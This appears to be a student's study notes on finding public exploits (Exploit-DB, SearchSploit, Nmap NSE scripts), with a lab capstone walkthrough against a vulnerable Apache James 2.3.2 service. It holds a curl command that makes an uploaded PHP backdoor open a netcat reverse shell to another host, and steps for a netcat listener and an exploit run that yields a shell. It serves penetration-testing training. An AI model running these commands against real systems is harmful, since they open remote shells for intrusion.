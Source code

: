 ## 12.2. Online Exploit Resource

### 12.2.1. The Exploit Database

### 12.2.2 Packet Storm

### 12.2.3 GitHub

### 12.2.4 Google Search Operators

## 12.3. Offline Exploit Resources

#### 12.3.1. Exploit Frameworks
- Metasploit
- [Core Impact](https://www.cobaltstrike.com/core-impact/)
- [Canvas](ttp://immunityinc.com/products/canvas/index.html)
- [Browser Exploitation Framework (BeEF)](http://beefproject.com) 

### 12.3.2 SearchSploit

#### Copying the current working directory with searchsploit
```Shell
searchsploit -m windows/remote/48537.py
```
`OR:`
```Shell
searchsploit -m 42031
```
The first command execution copied the exploit file and the second command execution copied the exploit by its EDB-ID.

### 12.3.3. Nmap NSE Scripts

#### Listing NSE scripts containing the word "Exploits"
```Shell
grep Exploits /usr/share/nmap/scripts/*.nse
```

#### Using Nmap NSE to obtain information on a script
```Shell
nmap --script-help=clamav-exec.nse
```
--script-help provides more information on the script

#### Using cURL to URL encode a command for a netcat call back
```Shell
curl http://192.168.50.11/project/uploads/users/420919-backdoor.php --data-urlencode "cmd=nc -nv 192.168.50.129 6666 -e /bin/bash"
```

### Capstone event

- An exploitable server is running services on several ports on the exercise VM, _PublicExploits03_. Treat this like a real box and start by identifying what services are running on your assigned ports (and your ports only). There is a local user _student_ on this box with the password _lab_. Exploit the vulnerable service and SSH to the box to read _flag.txt_ located in _/home/challenge/_.
#### 1. Nmap scan finds open ports and the name of a service called "Remote Admin 2.3.2"
```Shell
nmap -p- $IP
```

```Shell
nmap -p 22,32822,32823,32824,32825,32826 -sV -sC $IP
```
![[20233507_0835_offsec-locating-public-exploits-nmap.png]]
Remote Admin 2.3.2 was running on port 32822. SMTP is highlighted for later steps. SSH is running on port 32826.
#### 2. Identify associated exploit

Remote Admin 2.3.2 has a public exploit available on Exploit-DB: [Apache James Server 2.3.2 - Remote Command Execution (RCE) (Authenticated) (2) - Linux remote Exploit (exploit-db.com)](https://www.exploit-db.com/exploits/50347)

The code was modified to show the Remote Admin service running on port 32822 and SMTP running on port 32825.

#### 3. Netcat listener started on port 4444
```Shell
nc -lnvp 4444
```

#### 4. Exploit run
```Shell
python3 50347.py 192.168.248.52 192.168.45.241 4444
```

#### 5. Logged into the ssh service with provided creds (student:lab), which gave a reverse shell on netcat
```Shell
ssh student@192.168.248.52 -p 32826
```
![[20235907_0859_exploit-complete.png]]